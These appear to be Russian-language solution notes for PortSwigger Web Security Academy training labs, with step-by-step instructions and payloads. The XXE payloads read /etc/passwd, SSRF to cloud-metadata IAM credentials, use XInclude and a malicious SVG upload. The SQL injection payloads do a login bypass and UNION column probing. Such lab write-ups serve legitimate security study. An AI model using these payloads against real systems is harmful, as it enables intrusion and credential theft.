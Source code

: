 # XXE

1. https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files

+ 1)зайти на сайт, 

+ 2)выбрать продукт, 

+ 3)нажать *Check stock*, 

+ 4)перехватить Post запрос через BURP 

+ 5)после объявления xml добавить

```xml
<!DOCTYPE kek [ <!ENTITY res SYSTEM "file:///etc/passwd"> ]> 
```

+ 6)заменить product id число на `&res;` 

+ 7)после этого просто отправить запрос и в ответе придёт /etc/passwd

____

2. https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf

те же действия, что и в предыдущей. до пункта 4) 

+ 5)после объявления xml добавить:

```xml
<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/"> ]>
```

+ 6)заменить product id на `&res;` отправить запрос, 

+ 7)в ответе придет `latest` - добавить его к адресу и получим 

```xml
<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/latest"> ]> 
```
и так далее, 

+ n+1)в итоге получаем 

```xml
<!DOCTYPE kek [ <!ENTITY res SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
```
что и приведёт нас к ответу.

____

3. https://portswigger.net/web-security/xxe/lab-xinclude-attack

те же действия, что и в 1. до пункта 4) 

+ 5)в *product id* вставить 
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> 
<xi:include parse="text" href="file:///etc/passwd"/></foo> 
```

+ 6)в ответ придёт /etc/passwd


____


4.https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload

+ 1)зайти на сайт

+ 2)выбрать статью 

+ 3)нажать отправить комментарий(заполнить все поля предварительно) 

+ 4)перехватить запрос через Burp

+ 5)в поле для картинки вставить: 

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE kek [ <!ENTITY res SYSTEM "file:///etc/hostname"> ]>
 <svg  version="1.1" width="1200" height="1200"
        viewBox="0 0 100 100"
     baseProfile="full"
     xmlns="http://www.w3.org/2000/svg"
     xmlns:xlink="http://www.w3.org/1999/xlink"
     xmlns:ev="http://www.w3.org/2001/xml-events">
 <text font-size = "10" y = "16"> &res; </text>
</svg>
```

+ 6)svg части взяты из интернета - видимо что-то типа стандарта,размер задан вручную, ViewBox регулировался так, чтоб было видно текст на картинке, собственно как и размер текста(тоже регулировался)

____

# SQL

1. https://portswigger.net/web-security/sql-injection/lab-login-bypass

+ 1)в графе login ввести administrator'--

____

2. https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text 

+ 1)в category использовать '+union+select+NULL,NULL,NULL - так убедимся, что у нас 3 столбца в таблице

+ 2)заменяем NULL по очереди на `HmnfQ2` - дано в задании
https://ac811f101ea3312280cb0ad600a4009a.web-security-academy.net/filter?category=%27+UNION+SELECT+NULL,%27HmnfQ2%27,NULL-- 

+ 3)второй столбец оказался верным - выводится результат